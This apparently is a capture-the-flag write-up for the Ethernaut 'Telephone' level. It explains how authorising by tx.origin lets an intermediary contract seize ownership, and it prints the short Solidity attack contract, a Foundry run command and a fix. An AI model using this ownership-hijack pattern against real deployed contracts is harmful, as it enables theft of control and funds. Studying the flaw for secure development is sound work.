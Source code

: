 # Ethernaut 4 - Telephone

## Challenge Overview

The Telephone challenge demonstrates a critical vulnerability related to the difference between `tx.origin` and `msg.sender` in Ethereum smart contracts.

## Vulnerability Analysis

The vulnerable contract has a `changeOwner` function that checks:

```solidity
if (tx.origin != msg.sender) {
  owner = _owner;
}
```

### The Problem

- `tx.origin`: The address that initiated the transaction (the EOA that signed the transaction)
- `msg.sender`: The address that called the current function (could be a contract or EOA)

When a user calls a contract directly, `tx.origin == msg.sender`. However, when a contract calls another contract, `tx.origin` remains the original user, but `msg.sender` becomes the calling contract's address.

## Solution Strategy

We exploit this by creating an intermediary contract (`Attack.sol`) that calls the `changeOwner` function. This way:

- `tx.origin` = our EOA address
- `msg.sender` = the Attack contract address
- Since `tx.origin != msg.sender`, the condition passes and we become the owner

## Files Structure

- `src/Telephone.sol` - The vulnerable contract
- `src/Attack.sol` - Our exploit contract
- `script/Solve.s.sol` - Foundry script to execute the attack

## Attack Contract

```solidity
contract Attack {
    Telephone public telephone;

    constructor(Telephone _telephone){
        telephone = _telephone;
    }

    function steelOwnership() external {
        telephone.changeOwner(msg.sender);
    }
}
```

## Execution

The attack is executed through the Foundry script which:

1. Deploys the Attack contract with the Telephone instance
2. Calls `steelOwnership()` which triggers the vulnerability
3. Successfully changes ownership

## Challenge Parameters On Arbitrum Sepolia

- **Submit level txnHash**: `0xb6b43e648c2d7d05be880cb1888c904d94d6f86056438458a1e2a4801e8d73c1`
- **Instance address**: `0x46f5C472B3F81bA00240Ae0523feDe2eb65D41b9`
- **Level address**: `0xba6F0B5784B6580790584A553f6e4a3483a915c3`

## Key Learning Points

1. **tx.origin vs msg.sender**: Understanding the difference is crucial for secure smart contract development
2. **Never use tx.origin for authorization**: Always use `msg.sender` for access control
3. **Contract-to-contract interactions**: Be aware of how calls through contracts affect these variables

## Prevention

To fix this vulnerability, the contract should use `msg.sender` instead of `tx.origin`:

```solidity
function changeOwner(address _owner) public {
    if (msg.sender == owner) {  // Use msg.sender instead of tx.origin
        owner = _owner;
    }
}
```

## Running the Solution

```zsh
forge script script/Solve.s.sol --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> --sender <MSG_SENDER> --broadcast
```

This challenge demonstrates why `tx.origin` should never be used for authorization in smart contracts, as it can be easily bypassed through contract intermediaries.
